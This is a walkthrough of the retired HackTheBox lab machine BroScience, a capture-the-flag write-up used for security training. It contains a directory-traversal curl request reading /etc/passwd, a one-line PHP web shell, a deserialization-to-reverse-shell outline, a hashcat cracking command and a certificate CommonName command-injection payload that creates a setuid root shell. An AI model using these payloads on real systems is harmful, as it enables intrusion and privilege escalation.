 ## 🧠 HTB: BroScience Walkthrough

### 📦 Box Info
- **Name:** BroScience
- **OS:** Linux
- **Difficulty:** Medium [30 pts]
- **Release Date:** 07 Jan 2023
- **Retirement:** 08 Apr 2023
- **Creator:** bmdyy

---

### 🔍 Recon

#### 🌐 Ports Discovered (via `nmap`):
- [**22/tcp** - OpenSSH 8.4p1 (Debian)](SSH)
- [**80/tcp** - Apache 2.4.54, redirects to HTTPS](HTTP)
- **443/tcp** - Apache 2.4.54 (SSL-enabled)

```bash
nmap -p- --min-rate 10000 10.10.11.195
nmap -p 22,80,443 -sCV 10.10.11.195
```

#### 🌍 Website Behavior
- HTTP redirects to HTTPS (`https://broscience.htb`)
- Exercises accessible via `exercise.php?id=1`
- Requires registration + activation
- PHPSESSID cookie issued

#### 🔍 Directory Fuzzing
```bash
feroxbuster -u https://broscience.htb -x php -k --no-recursion
```
- Interesting endpoints: `index.php`, `register.php`, `login.php`, `user.php`, `activate.php`, `includes/img.php`

---

### 🐚 Shell as www-data

#### 🕳️ Directory Traversal (not LFI 😤)
- `/includes/img.php?path=` is vulnerable
- `..%252f` double-URL encoding bypasses filters

```bash
curl -k "https://broscience.htb/includes/img.php?path=..%252f..%252f..%252fetc%252fpasswd"
```

#### 📄 Source Read
- Dumped `/index.php`, `/includes/utils.php`, `/includes/db_connect.php`
- Found DB creds & salt `NaCl`
- Found unserialize on `user-prefs` cookie
- Found insecure `generate_activation_code()` using `srand(time())`

#### 🔓 Activation Code Forge
```php
md5($db_salt . $password);
```
- Brute-forced likely activation code based on server timestamp
- Activated user

#### 💥 PHP Deserialization to RCE
- Modified `user-prefs` cookie with `AvatarInterface` payload
- Hosted reverse shell via `cmd.php`
- Reached `/cmd.php?cmd=...`
- Reverse shell as `www-data`

```php
<?php system($_REQUEST['cmd']); ?>
```

---

### 🐚 Shell as bill

#### 🔎 Database Creds
- Used creds from `db_connect.php` to connect to PostgreSQL
- Dumped users table and cracked password hashes with:
```bash
hashcat -m 20 --user hashes rockyou.txt --show
```
- Cracked user bill's password: `iluvhorsesandgym`
- Switched user via `su - bill`

---

### 👑 Shell as root

#### 🔄 Cron Discovery (pspy)
- Found `/opt/renew_cert.sh` executed every 2 mins
- Reads from `/home/bill/Certs/broscience.crt`
- Vulnerable to command injection via `CommonName` field

#### 💣 Exploit
- Crafted certificate with payload:
```bash
CN = $(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)
```
- SetUID root shell dropped in `/tmp/0xdf`
- Executed `/tmp/0xdf -p` to get root

---

### 🏁 Flags
- **User:** `511395d5************************`
- **Root:** `e810aba4************************`

---

### 📬 Shoutout to 0xdf
- Blog: [0xdf hacks stuff](https://0xdf.gitlab.io/)
- Mastodon: `@0xdf@infosec.exchange`
- YouTube, Gitlab, Buy Me a Coffee ☕